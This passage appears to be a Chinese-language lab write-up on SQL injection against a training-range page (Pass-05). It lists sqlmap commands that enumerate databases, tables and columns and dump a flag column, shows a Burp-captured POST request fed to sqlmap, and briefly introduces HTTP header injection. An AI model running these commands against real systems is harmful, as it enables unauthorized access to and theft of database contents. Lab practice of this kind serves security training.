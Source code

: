 
==》注入成功

> 
**跑库名**
**sqlmap.py -u http://inject2.lab.aqlab.cn:81/Pass-05/index.php --forms --dbs**
**跑表名**
**sqlmap.py -u http://inject2.lab.aqlab.cn:81/Pass-05/index.php --forms -D post_error --tables**
**字段名**
**sqlmap.py -u http://inject2.lab.aqlab.cn:81/Pass-05/index.php --forms -D post_error -T flag --columns**
**出数据**
**sqlmap.py -u http://inject2.lab.aqlab.cn:81/Pass-05/index.php --forms -D post_error -T flag -C flag --dump**


**-r **

Burp抓包，为了方便在Sqlmap文件夹里创建文档1.txt然后把数据存放在里面；

> 
<pre>POST /Pass-05/index.php HTTP/1.1
Host: inject2.lab.aqlab.cn:81
Content-Length: 45
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://inject2.lab.aqlab.cn:81
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.101 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://inject2.lab.aqlab.cn:81/Pass-05/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close</pre>
<pre>username=&amp;password=&amp;submit=%E7%99%BB%E5%BD%95
</pre>


> 
**sqlmap.py -r 1.txt** 


==》注入成功

然后跑库名(sqlmap.py -r 1.txt --dbs)，表名，字段名和数据 跟--forms差不多

### Head注入介绍

> 
在传参的时候，将我们的数据构建在http头部。
就是当你登录时，网页可能会记录下你的ip之类的信息，方便下次访问，此时或许存在注入点。
**注：需登录成功。**


PHP 全局变量 - 超全局变量
